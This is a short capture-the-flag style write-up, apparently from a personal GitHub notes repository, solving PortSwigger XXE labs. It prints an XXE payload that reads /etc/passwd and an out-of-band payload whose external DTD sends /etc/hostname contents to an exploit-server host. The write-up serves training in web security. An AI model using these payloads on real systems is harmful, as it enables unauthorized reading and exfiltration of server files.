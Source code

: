 # XML external entity (XXE) injection

Get details at [here](https://portswigger.net/web-security/xxe)

XML (Extensible Markup Language) is a very popular data format. It is used in everything from web services (XML-RPC, SOAP, REST) through documents (XML, HTML, DOCX) to image files (SVG, EXIF data). To interpret XML data, an application needs an XML parser (also known as the XML processor).

---

[Lab 1](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files): exploiting XXE to retrieve files

Description of this lab: inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

Look at any post, it has `check stock` button, try to click, we can see website send a payload like this 

```xml
    <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

The final payload is

```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE test [ <!ENTITY test SYSTEM "file:///etc/passwd">]>
    <stockCheck><productId>&test;</productId><storeId>1</storeId></stockCheck>
```

Send it with repeater, and solved the lab.

[Lab 2]()

[Lab 3]()

[Lab 4]()

[Lab 5](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration): XXE with out-of-band exfiltrations

Description of this lab: exfiltrate the contents of the /etc/hostname file but does not display the result

Do the same as lab 1, but we need to send result to exploit server. At exploit server, use this payload like this

```
    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'https://exploit-0aa6003d04b1a1e6c3f1a78501860030.exploit-server.net/?%file;'>">
```

And payload in repeater

```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE test [<!ENTITY % loadDtd SYSTEM "https://exploit-0aa6003d04b1a1e6c3f1a78501860030.exploit-server.net/exploit">
    %loadDtd;
    %stack;
    %exfil;]<stockCheck>
    <productId>1</productId><storeId>1</storeId></stockCheck>
```
Send it with repeater, then go to access log at exploit server, we can see request like this `GET /?06da3baa945b HTTP/1.1" 200 "User-Agent: Java/17.0.5`, and result is 06da3baa945b. Go back to home and submit, then solved the lab.

